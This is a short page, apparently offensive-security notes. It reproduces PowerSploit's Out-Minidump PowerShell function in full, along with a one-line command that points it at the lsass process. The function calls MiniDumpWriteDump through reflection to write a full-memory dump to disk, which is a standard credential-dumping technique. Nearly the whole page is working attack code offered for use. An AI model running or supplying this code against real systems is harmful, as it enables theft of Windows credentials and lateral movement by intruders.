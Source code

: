 # Creating Minidumps
## Out-Minidump
Source: https://github.com/PowerShellMafia/PowerSploit/blob/master/Exfiltration/Out-Minidump.ps1   
Use script with:   
`Get-Process -Name lsass | Out-Minidump`   

Code: (redacted from original)   
```
function Out-Minidump
{
[CmdletBinding()]
Param (
[Parameter(Position = 0, Mandatory = $True, ValueFromPipeline = $True)]
[System.Diagnostics.Process]
$Process,
 
[Parameter(Position = 1)]
[ValidateScript({ Test-Path $_ })]
[String]
$DumpFilePath = $PWD
)
 
BEGIN
{
$WER = [PSObject].Assembly.GetType('System.Management.Automation.WindowsErrorReporting')
$WERNativeMethods = $WER.GetNestedType('NativeMethods', 'NonPublic')
$Flags = [Reflection.BindingFlags] 'NonPublic, Static'
$MnDmpWrtDmp = $WERNativeMethods.GetMethod('MiniDumpWriteDump', $Flags)
$MnDmpWithFullMemory = [UInt32] 2
}
 
PROCESS
{
$ProcessId = $Process.Id
$ProcessName = $Process.Name
$ProcessHandle = $Process.Handle
$ProcessFileName = "$($ProcessName)_$($ProcessId).dmp"
 
$ProcessDumpPath = Join-Path $DumpFilePath $ProcessFileName
 
$FileStream = New-Object IO.FileStream($ProcessDumpPath, [IO.FileMode]::Create)
 
$Result = $MnDmpWrtDmp.Invoke($null, @($ProcessHandle,
$ProcessId,
$FileStream.SafeFileHandle,
$MnDmpWithFullMemory,
[IntPtr]::Zero,
[IntPtr]::Zero,
[IntPtr]::Zero))
 
$FileStream.Close()
 
if (-not $Result)
{
$Exception = New-Object ComponentModel.Win32Exception
$ExceptionMessage = "$($Exception.Message) ($($ProcessName):$($ProcessId))"
 
Remove-Item $ProcessDumpPath -ErrorAction SilentlyContinue
 
throw $ExceptionMessage
}
else
{
Get-ChildItem $ProcessDumpPath
}
}
 
END {}
}
```
